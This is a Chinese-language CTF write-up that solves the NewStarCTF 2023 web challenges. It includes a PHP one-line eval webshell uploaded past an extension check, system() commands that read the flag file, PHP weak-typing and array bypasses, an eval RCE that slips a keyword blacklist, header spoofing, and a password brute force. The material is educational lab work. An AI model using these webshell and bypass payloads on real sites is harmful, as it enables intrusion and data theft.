NewStarCTF 2023 公开赛道 WEB
泄漏的秘密
考点：敏感文件泄漏
通过盲猜 www.zip、index.php等常用隐藏名称可以猜出。或者使用 dirsearch 进行搜索，可以查找到 www.zip文件：

进行访问下载解压即可获得两个文件，将两个文件中的字段拼接起来就是flag：flag{r0bots_1s_s0_us3ful_4nd_www.zip_1s_s0_d4ng3rous}

Begin of Upload
考点：php文件上传漏洞，一句话木马介绍
编写含有一句话木马的文件命名为1.php，内容为：
<?php @eval($_POST['1']); echo "it is ok"; ?>点击上传后会提示：

改传1.php.png，随后通过 Burp 拦截将上传内容修改为 1.php，上传成功：

再利用 中国蚁剑 工具进行链接：
http://eade7cdc-4610-4431-8fad-84e6f86ba897.node4.buuoj.cn:81/upload/1.php
直接在蚁剑中找到 flag 文件 fllll4g：

或者 使用Hackbar，查看目录内容也可以得知含有 fllll4g 文件：
1=system('ls /')
再利用以下代码，得到flag
1=system('cat /fllll4g')Begin of HTTP
考点：HTTP常见请求头、HTTP请求方式
进入题目后，首先要求以GET方式给ctf参数传参数：

http://node4.buuoj.cn:29762/?ctf=1之后要求用POST方法传入 secret 参数，并且必须是正确的 secret：

打开网页源代码可以找到 secret 提示：

Base64解码后得到 secret 参数：
n3wst4rCTF2023g00000d利用 Hackbar 传入POST参数：

下面更改 power 参数为 ctfer：

再更改浏览器参数为 NewStarCTF2023：

之后加入 Refer 参数，并修改为 newstarctf.com：

加入 X-Real-IP 参数为 127.0.0.1，修改为本地用户访问：

得到最终的 flag 值：flag{46df0dd3-dd02-4402-9e1e-08e555917442}
另：
本题还可以使用 Burp 等工具进行修改参数，还可以使用 Python 进行求解：
from requests import *
from base64 import b64decode
url = 'http://node4.buuoj.cn:29762/'
params = {
'ctf': '1',
}
data = {
'secret': b64decode('bjN3c3Q0ckNURjIwMjNnMDAwMDBk').decode(),
}
cookies = {
'power': 'ctfer',
}
headers = {
'User-Agent': 'NewStarCTF2023',
'Referer': 'newstarctf.com',
'X-Real-IP': 'localhost'
}
s = Session()
r = s.post(url, params=params, data=data, cookies=cookies, headers=headers)
print(r.text)
print(r.cookies.get_dict())
print(r.headers)输出为：
<!DOCTYPE html>
<html>
<head>
<meta charset="utf-8" />
<title>Begin of HTTP</title>
<link rel="stylesheet" type="text/css" href="css/style.css" tppabs="css/style.css" />
<style>
body {
height: 100%;
background: #16a085;
overflow: hidden;
}
canvas {
z-index: -1;
position: absolute;
}
</style>
<script src="js/jquery.js"></script>
<script src="js/verificationNumbers.js" tppabs="js/verificationNumbers.js"></script>
<script src="js/Particleground.js" tppabs="js/Particleground.js"></script>
<script>
$(document).ready(function() {
$('body').particleground({
dotColor: '#5cbdaa',
lineColor: '#5cbdaa'
});
});ß
</script>
</head>
<body>
<dl class="admin_login">
<dt>
<font color="white"><strong>Welcome to NewStarCTF 2023~</strong></font><br>
</dt>
<center>
<font size="4px" color="white">
恭喜你顺利完成了本道题目，这是你的Flag，快去提交吧：flag{46df0dd3-dd02-4402-9e1e-08e555917442}
</font>
</center>
</dl>
</body>
</html>
{}
{'Connection': 'close', 'Content-Length': '666', 'Content-Encoding': 'gzip', 'Content-Type': 'text/html; charset=UTF-8', 'Date': 'Wed, 04 Oct 2023 01:58:05 GMT', 'Server': 'Apache/2.4.38 (Debian)', 'Vary': 'Accept-Encoding', 'X-Powered-By': 'PHP/7.3.15'}ErrorFlask
考点：Flask报错界面信息泄露
题目如下所示：
它说我们只用给出number1和number2，它会帮我们添加，于是：
http://69dd29c8-0844-4ff3-aaef-ec632f65b4bc.node4.buuoj.cn:81/?number1=ab&number2=2
从中进行查找可以查看到flag：

flag{Y0u_@re_3enset1ve_4bout_deb8g}
Begin of PHP
考点：PHP弱类型、PHP加密函数数组绕过、PHP函数特性、变量覆盖漏洞

本题一共分出了五个部分。
第一个部分：
if(isset($_GET['key1']) && isset($_GET['key2'])){
echo "=Level 1=<br>";
if($_GET['key1'] !== $_GET['key2'] && md5($_GET['key1']) == md5($_GET['key2'])){
$flag1 = True;
}else{
die("nope,this is level 1");
}}主要考察PHP中md5弱类型比较的特点，只需要找到两个值不同但md5值以0e开头的字符串即可通过本关，原理是0e在进行弱类型比较时会被当作科学计数法进行比较，也就是0。
http://3b2a7f07-0051-40ce-b45b-bc6fe2cf723c.node4.buuoj.cn:81/?key1=s878926199a&key2=s155964671a第二个部分：
if($flag1){
echo "=Level 2=<br>";
if(isset($_POST['key3'])){
if(md5($_POST['key3']) === sha1($_POST['key3'])){
$flag2 = True;
}
}else{
die("nope,this is level 2");
}
}主要考察PHP哈希函数的特性，在处理数组类型的传参时，md5、sha1等哈希函数会返回NULL值，由此可以构造出NULL===NULL从而通过判断。
POST：key3[]=1第三个部分：
if($flag2){
echo "=Level 3=<br>";
if(isset($_GET['key4'])){
if(strcmp($_GET['key4'],file_get_contents("/flag")) == 0){
$flag3 = True;
}else{
die("nope,this is level 3");
}
}
}主要考察strcmp函数特性，如果传入的参数为数组类型，该函数就会返回NULL值，构造NULL==0从而通过判断。
http://3b2a7f07-0051-40ce-b45b-bc6fe2cf723c.node4.buuoj.cn:81/?key1=s878926199a&key2=s155964671a&key4[]=1第四个部分：
if($flag3){
echo "=Level 4=<br>";
if(isset($_GET['key5'])){
if(!is_numeric($_GET['key5']) && $_GET['key5'] > 2023){
$flag4 = True;
}else{
die("nope,this is level 4");
}
}
}主要考察is_numeric函数特性，在传入的数字后加入任意字母或%00即可通过本层的判断。
http://3b2a7f07-0051-40ce-b45b-bc6fe2cf723c.node4.buuoj.cn:81/?key1=s878926199a&key2=s155964671a&key4[]=1&key5=2024a第五个部分：
if($flag4){
echo "=Level 5=<br>";
extract($_POST);
foreach($_POST as $var){
if(preg_match("/[a-zA-Z0-9]/",$var)){
die("nope,this is level 5");
}
}
if($flag5){
echo file_get_contents("/flag");
}else{
die("nope,this is level 5");
}
}考察extract函数导致的变量覆盖漏洞，这里的if判断只要保证传入变量flag5即可，根据上面的正则限制，变量值不能为字母和数字，那么可以传一个![]进去，[]空数组会隐式转换为false，在！取反得到我们要的true，(或者，传入一个任意符号也可通过本层。)
POST:key3[]=1&flag5=![]得到flag : flag{8b247b57-901a-48d6-91d3-8df4b50f3803}
R!C!E!
考点：md5碰撞、PHP特殊符号传参、PHP命令执行、黑名单绕过
题目如下所示：
<?php
highlight_file(__FILE__);
if(isset($_POST['password'])&&isset($_POST['e_v.a.l'])){
$password=md5($_POST['password']);
$code=$_POST['e_v.a.l'];
if(substr($password,0,6)==="c4d038"){
if(!preg_match("/flag|system|pass|cat|ls/i",$code)){
eval($code);
}
}
}首先题目要求 POST 传入一个 password ，password 的 hash 前六位为 c4d038，而哈希加密是一种不可破解的算法，我们只能通过碰撞来尝试获取我们需要的 password。
import hashlib
def crack(a):
for i in range(0,999999):
if(hashlib.md5(str(i).encode("GBK")).hexdigest()[0:6] == str(a)):
print(i)
break
crack("c4d038")运行结果得知是 114514.
题目中code的传参是e_v.a.l，这时候如果直接按这个变量名来传参，php 是无法接收到这个值的，具体原因是 php 会自动把一些不合法的字符转化为下划线（注：php8以下），比如这个点就会被转换为下划线，另外这种转换只会发生一次。故直接传相当于传的变量名为 e_v_a.l 。于是为了防止我们的点被自动转换，我们可以先让第一个下划线位置为不合法字符，从而转换为下划线，不会再转换后面的点。比如可以传入 e[v.a.l 。
最后看命令执行部分，这里是有一个黑名单的过滤：
if(!preg_match("/flag|system|pass|cat|ls/i",$code)){
eval($code);
}
看到了 flag 在根目录下。但是黑名单过滤了 flag 关键字，我们没法直接读取，于是可以使用参数逃逸绕过限制：
POST:password=114514&e[v.a.l=var_dump(file_get_contents($_POST['a']));&a=/flagPOST:password=114514&e[v.a.l=echo file_get_contents("/"."f"."l"."a"."g");得到 flag 为 flag{4c161ed0-2717-4082-b051-fe63b33efd4c}
EasyLogin
考点：弱口令登录、HTTP 302 跳转抓包
进入之后是一个登录界面，先随便注册一个账号登进去看看。利用Ctrl``C和Ctrl``D回到 Shell，

简单看了下目录结构没有什么东西，只告知了含有一个 admin 用户，按方向上键可以查询Bash历史记录：

该登录密码采用 弱密码，并且，将 newstar 和 newstar2023 追加到了密码本中。先尝试用这两个新加入的密码进行登录admin，结果都不对。利用 Burp 进行爆破，得到密码为 000000，登录：

在 302 请求页面中获得到 flag ： flag{4b723bc2-fc05-4d41-b7dd-f62ffa244f47}